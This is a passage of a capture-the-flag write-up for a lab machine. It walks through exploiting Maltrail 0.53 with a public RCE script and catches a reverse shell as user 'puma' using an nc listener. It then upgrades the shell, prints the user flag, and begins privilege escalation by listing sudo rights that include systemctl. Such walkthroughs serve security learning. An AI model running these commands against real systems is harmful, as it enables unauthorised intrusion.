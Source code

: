 ### Maltrail RCE Exploit to get access as puma

If we google Maltrail 0.53 exploit, we will find the following RCE exploit:

https://github.com/spookier/Maltrail-v0.53-Exploit

Now lets use it and get access:

```shell
# Get the exploit
git clone https://github.com/spookier/Maltrail-v0.53-Exploit.git
cd Maltrail-v0.53-Exploit

# Start nc listener
nc -lvnp 8443

# Run the exploit (Notice that I entered as target URL the URL through which we accessed port 80)
python3 exploit.py 10.10.14.206 8443 http://10.129.138.176:55555/2ungbj8
```

Nice! We got access as puma:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.138.176] 51028
$ whoami
whoami
puma
```

Update shell with:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### User Flag
Now we can get the user.txt flag:

```shell
66675eeedd2b27f8bc12ca5b64779896
```

# Privilege Escalation

### CVE-2023-26604 systemctl to escalate privileges
Lets use sudo -l and see what we can get:

```shell
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
